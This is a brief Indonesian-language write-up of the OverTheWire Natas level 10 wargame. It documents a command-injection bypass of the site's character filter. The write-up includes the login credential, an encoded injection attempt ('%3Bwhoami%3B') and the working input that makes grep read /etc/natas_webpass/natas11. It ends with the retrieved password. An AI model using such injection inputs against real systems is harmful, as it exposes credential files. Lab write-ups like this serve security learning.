


# soal
Username: natas10 \
URL:      http://natas10.natas.labs.overthewire.org

# solve
- use cred natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
- setelah saya login terdapat sebuah form input seperti sesbelumnya hanya saja sepertinya terdapat keamanan yang lebih baik
  
  - terdapat pengecualian pada teks seperti "/[;|&]/"
  - disini saya mencoba untuk melakukan bypass sperti menggunakan url encode namun masih belum berhasil
  ```
  %3Bwhoami%3B
  ```
  - https://github.com/payloadbox/command-injection-payload-list
  - https://owasp.org/www-community/attacks/Command_Injection
  - https://book.hacktricks.xyz/pentesting-web/command-injection
- lalu saya terpikir sesuatu untuk mencoba grep file /etc/natas_pass saja
  
  ```
  a /etc/natas_webpass/natas11
  ```
- dan akhirnya saya berhaasil mendapatkan flagnya
  ```
  /etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
  ```

# flag
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk